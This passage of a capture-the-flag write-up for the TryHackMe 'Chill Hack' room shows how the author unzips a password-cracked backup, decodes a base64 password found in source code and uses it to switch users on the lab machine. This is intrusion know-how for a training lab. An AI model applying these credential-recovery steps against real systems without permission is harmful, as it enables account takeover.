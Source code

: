 Cool, John was able to crack the password nearly instantly and we can use the credential to unzip and read the file:

```text
┌──(ryan㉿kali)-[~/THM/Chill_Hack]
└─$ unzip backup.zip
Archive:  backup.zip
[backup.zip] source_code.php password: 
  inflating: source_code.php         
                                                                                                                             
┌──(ryan㉿kali)-[~/THM/Chill_Hack]
└─$ subl source_code.php 
```

Looks like we've discovered yet another credential. 

![subl_pass.png](../assets/chill_hack_assets/subl_pass.png)

Lets see if we can decode this:

```text
┌──(ryan㉿kali)-[~/THM/Chill_Hack]
└─$ echo "IWQwbnRLbjB3bVlwQHNzdzByZA==" |  base64 -d
!d0ntKn0wmYp@ssw0rd
```

And back in our original shell we can successfully switch users:

```text
apaar@ubuntu:/var/www/files/images$ su anurodh
Password: 
anurodh@ubuntu:/var/www/files/images$ whoami
anurodh
```
